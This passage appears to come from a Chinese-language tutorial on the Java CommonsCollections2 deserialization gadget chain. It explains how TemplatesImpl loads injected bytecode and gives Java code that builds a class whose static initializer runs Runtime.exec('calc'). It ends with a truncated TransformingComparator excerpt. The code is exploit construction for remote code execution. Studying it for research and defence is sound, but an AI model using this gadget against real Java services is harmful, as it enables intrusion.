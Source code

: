 注释1处调用了getTransletInstance，分析getTransletInstance。

注释2处调用了defineTransletClasses，在defineTransletClasses里注释3处，会解析类的字节码_bytecodes，_bytecodes就是之后我们构造的包含payload的类的字节码。

回到注释4处，程序会为我们传入的恶意TemplatesImpl类创建一个实例，里面的静态代码包含的payload就会在此时执行。

ps1：

在构造时我们还需要注意两点：

* 注释4处，创建的是一个AbstractTranslet示例，因此我们的恶意类要继承一下AbstractTranslet
* 注释5处，我们构造时需要给_name赋一个任意的值，不然后面的代码不会执行

ps2：

q：为什么不直接在InvokerTransformer#transform里调用getTransletInstance？

a：因为getTransletInstance是私有方法

于是有Exp中的构造：

```java
    String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
    String TemplatesImpl="com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";

    ClassPool classPool=ClassPool.getDefault();//返回默认的类池
    classPool.appendClassPath(AbstractTranslet);//添加AbstractTranslet的搜索路径
    CtClass payload=classPool.makeClass("CommonsCollections22222222222");//创建一个新的public类
    payload.setSuperclass(classPool.get(AbstractTranslet));  //设置前面创建的CommonsCollections22222222222类的父类为AbstractTranslet
    payload.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"calc\");"); //创建一个空的类初始化，设置构造函数主体为runtime

    byte[] bytes=payload.toBytecode();//转换为byte数组

    Object templatesImpl=Class.forName(TemplatesImpl).getDeclaredConstructor(new Class[]{}).newInstance();//反射创建TemplatesImpl
    Field field=templatesImpl.getClass().getDeclaredField("_bytecodes");//反射获取templatesImpl的_bytecodes字段
    field.setAccessible(true);//暴力反射
    field.set(templatesImpl,new byte[][]{bytes});//将templatesImpl上的_bytecodes字段设置为runtime的byte数组

    Field field1=templatesImpl.getClass().getDeclaredField("_name");//反射获取templatesImpl的_name字段
    field1.setAccessible(true);//暴力反射
    field1.set(templatesImpl,"test");//将templatesImpl上的_name字段设置为test
```

‍

#### TransformingComparator

```java
    /** The decorated comparator. */
    private final Comparator<O> decorated;
    /** The transformer being used. */
    private final Transformer<? super I, ? extends O> transformer;

    public TransformingComparator(Transformer<? super I, ? extends O> transformer) {
        this(transformer, ComparatorUtils.NATURAL_COMPARATOR);
    }

	/**
     * Returns the result of comparing the values from the transform operation.
     *
     * @param obj1  the first object to transform then compare
     * @param obj2  the second object to transform then compare
     * @return negative if obj1 is less, positive if greater, zero if equal
     */
    public int compare(final I obj1, final I obj2) {
```
